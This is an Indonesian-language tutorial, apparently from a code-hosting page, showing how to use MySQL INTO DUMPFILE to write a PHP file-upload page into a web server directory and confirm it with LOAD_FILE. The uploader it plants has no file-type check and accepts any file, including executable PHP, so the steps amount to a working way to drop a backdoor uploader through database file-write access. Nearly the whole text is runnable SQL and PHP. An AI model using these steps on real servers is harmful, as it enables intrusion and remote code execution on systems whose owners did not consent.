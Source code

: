 # Execute CLI Command

Pada halaman ini saya akan mencoba Execute CLI Command dari MySQL/MariaDB

## Buat table baru
```sql
CREATE TABLE `test`.`test_content` ( `id` INT NOT NULL AUTO_INCREMENT , `name` VARCHAR(50) NOT NULL , `content` TEXT NOT NULL , PRIMARY KEY (`id`)) ENGINE = InnoDB;
```

## Insert Data Baru
```sql
INSERT INTO `test_content` (`id`, `name`, `content`) VALUES (NULL, 'upload.php', '<!DOCTYPE html>
<html>
<body>

<form action="upload.php" method="post" enctype="multipart/form-data">
    Select image to upload:
    <input type="file" name="fileToUpload" id="fileToUpload">
    <input type="submit" value="Upload Image" name="submit">
</form>

<?php

if(isset($_POST["submit"])) {
	$target_dir = getcwd()."/";
	$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
	$uploadOk = 1;
	$imageFileType = strtolower(pathinfo($target_file,PATHINFO_EXTENSION));

	// Check if file already exists
	if (file_exists($target_file)) {
		echo "Sorry, file already exists.";
		$uploadOk = 0;
	}
	// Check file size
	if ($_FILES["fileToUpload"]["size"] > 500000) {
		echo "Sorry, your file is too large.";
		$uploadOk = 0;
	}

	// Check if $uploadOk is set to 0 by an error
	if ($uploadOk == 0) {
		echo "Sorry, your file was not uploaded.";
	// if everything is ok, try to upload file
	} else {
		if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
			echo "The file ". basename( $_FILES["fileToUpload"]["name"]). " has been uploaded.";
		} else {
			echo "Sorry, there was an error uploading your file.";
		}
	}
}

?>

</body>
</html>');
```

## Membuat File di Disk
Jalankan query di bawah untuk membuat file `upload.php`
```sql
SELECT content FROM `test_content` WHERE 1 INTO DUMPFILE "D:/xampp2/htdocs/test/upload.php"
```
Untuk cek apakah file sudah terbentuk, jalankan perintah
```sql
SELECT LOAD_FILE('D:/xampp2/htdocs/test/upload.php') AS file_exist
```
